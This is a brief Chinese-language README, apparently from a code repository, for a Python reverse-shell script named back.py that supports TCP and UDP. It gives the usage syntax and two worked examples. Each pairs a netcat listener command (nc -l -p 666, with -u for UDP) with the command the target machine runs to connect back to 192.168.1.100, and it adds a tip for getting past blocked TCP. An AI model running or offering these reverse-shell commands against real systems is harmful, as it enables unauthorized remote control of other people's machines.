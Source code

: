 # python 版本的反弹shell 支持udp

用法 ：
	python back.py <back ip> <port> 

	example 1: 反弹shell到我的电脑：192.168.1.100  端口 666

	本地监听 ：nc -l -p 666 -vv
	目标机器执行：	python back.py 192.168.1.100 666

	example 2: 对于封了tcp的机器，可以用udp反弹（udp没有tcp稳定）
	
	
	本地监听 ：nc -l -p 666 -vv -u
	目标机器执行：	python back.py 192.168.1.100 666 udp

	
